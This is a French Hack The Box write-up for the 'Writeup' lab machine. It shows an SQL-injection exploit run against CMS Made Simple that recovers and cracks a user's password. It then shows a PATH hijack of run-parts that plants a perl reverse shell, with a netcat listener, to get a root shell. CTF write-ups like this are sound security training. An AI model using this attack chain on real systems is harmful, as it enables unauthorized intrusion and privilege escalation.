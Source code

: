 ```yaml
---
layout: post
title: HTB - Write Up
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, CMS Made Simple, SQLi, scp, run-parts, reverse shell, perl]
comments: false
---
```


1 - User.txt

~~~
root@Host-001:~# nmap 10.10.10.138
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-10 21:01 CEST
Nmap scan report for 10.10.10.138
Host is up (0.060s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
~~~

Les ports 80 http et 22 ssh sont ouverts.

Consulter robots.txt: http://10.10.10.138/robots.txt

On trouve:

~~~
# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
~~~

Consulter http://10.10.10.138/writeup

Il y a plusieurs pages. On voit que l'url est http://10.10.10.138/writeup/index.php?page=writeup

On essaye avec page=flag sans résultat. On pense à du Local File Inclusion mais ne donne aucun résultat...

Wappalyser nous dis que la page utilise CMS Made Simple. La page d'admin est /admin. Ref: [https://hostpapasupport.com/log-log-cms-made-simple/](https://hostpapasupport.com/log-log-cms-made-simple/)

Essayons http://10.10.10.138/writeup/admin

Nous tombons sur une page d'authentification de type htaccess. On modifie le verbe GET mais pas possible de bypasser comme ça :( on essaye d'accéder à .htpasswd mais l'accès est interdit!

Il y a plusieurs exploits concernant CMSMS. Dans notre cas, un exploit intéressant est: [https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

Enregistrer l'exploit 'cmsmadesimple22-sql.py' et le lancer:

~~~
root@kali:~/Desktop# python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
~~~

Résultat:

~~~
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
~~~

Ces credentials permettent de nous connecter au serveur via ssh:

~~~
root@Host-001:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ ls
user.txt
~~~

Nous avons accès au flag de l'usager. Passons à l'accès au compte root:

2 - Root.txt

Télécharger pspy: [https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s)

Envoyer le fichier sur le serveur:

~~~
root@kali:~/Desktop# scp pspy64s jkr@10.10.10.138:/home/jkr
jkr@10.10.10.138's password: 
pspy64s                                       100% 1129KB 172.5KB/s   00:06    
root@kali:~/Desktop#
~~~

Se connecter au serveur via SSH:

~~~
root@kali:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  8 08:06:30 2019 from 10.10.14.14
jkr@writeup:~$ ls
pspy64s  user.txt
jkr@writeup:~$ chmod +x pspy64s 
jkr@writeup:~$ ./pspy64s

Résultat:
(...)
2019/10/08 10:56:01 CMD: UID=0    PID=2685   | /usr/sbin/CRON 
2019/10/08 10:56:01 CMD: UID=0    PID=2686   | /usr/sbin/CRON 
2019/10/08 10:56:01 CMD: UID=0    PID=2687   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/08 10:56:02 CMD: UID=0    PID=2688   | sshd: jkr [priv]  
2019/10/08 10:56:02 CMD: UID=0    PID=2689   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/08 10:56:02 CMD: UID=0    PID=2690   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/08 10:56:02 CMD: UID=0    PID=2691   | /bin/sh /etc/update-motd.d/10-uname 
2019/10/08 10:56:02 CMD: UID=0    PID=2692   | sshd: jkr [priv]  
(...)
~~~

On remarque que le compte root appel 'run-parts' et que le PATH de root est PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

Ou est situé 'run-parts':

~~~
jkr@writeup:~$ which run-parts
/bin/run-parts
~~~

Les fichiers appelés par le shell le sont dans l'ordre du PATH. 'With a real shell the directories are searched in the order they are found in the path statement. So PATH="/a:/b/1:etc..." the /a will be looked at first.' Ref: [https://www.unix.com/shell-programming-and-scripting/95208-path-dircetory-search-order.html](https://www.unix.com/shell-programming-and-scripting/95208-path-dircetory-search-order.html)

Dans notre cas nous ne pouvons pas lire les dossiers /usr/local/sbin et /usr/local/bin mais nous pouvons écrire dedans:

~~~
jkr@writeup:~$ ls -la /usr/local
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwx-wsr-x  2 root staff 20480 Oct 10 15:09 bin
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 12288 Oct 10 14:54 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
~~~

Tentons de créer un reverse-shell dans /usr/local/sbin. 

Nous utilisons ici perl-reverse-shell de pentestmonkey Ref: [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Ce shell est disponible dans Kali Linux dans /usr/share/webshells/perl/
perl-reverse-shell.pl. Ref: [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Modifier le shell en mettant son adresse IP (celle du tunnel tun0) et en spécifiant le port d'écoute (Ici 1234). Cf: Ref.

Envoyer le shell sur le serveur:

~~~
root@Host-001:~/Bureau# scp perl-reverse-shell.pl jkr@10.10.10.138:/home/jkr
jkr@10.10.10.138's password: 
perl-reverse-shell.pl                         100% 3714   152.7KB/s   00:00  
~~~

Ouvrir une session netcat et écouter sur le port enregisté dans perl-reverse-shell.pl

~~~
root@Host-001:~/Bureau# nc -v -n -l -p 1234
~~~

Sur le serveur, renommer et envoyer le shell dans /usr/local
~~~
jkr@writeup:~$ ls
perl-reverse-shell.pl  user.txt
jkr@writeup:~$ cp perl-reverse-shell.pl run-parts
jkr@writeup:~$ ls
perl-reverse-shell.pl  run-parts  user.txt
jkr@writeup:~$ mv run-parts /usr/local/sbin
~~~

Attendre et regarder la console ou netcat a été lancé:

~~~
root@Host-001:~/Bureau# nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [10.10.15.65] from (UNKNOWN) [10.10.10.138] 41160
 14:52:54 up 1 min,  3 users,  load average: 0.08, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jkr      pts/0    10.10.15.65      14:51   22.00s  0.03s  0.03s -bash
jkr      pts/1    10.10.14.30      14:51   19.00s  0.00s  0.00s -bash
jkr      pts/2    10.10.15.154     14:52    4.00s  0.00s  0.00s top
Linux writeup 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd root
# ls
bin
root.txt
# cat root.txt
eeba47f60b48ef92b734f9b6198d7226
~~~

**Poursuivez avec :** [Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
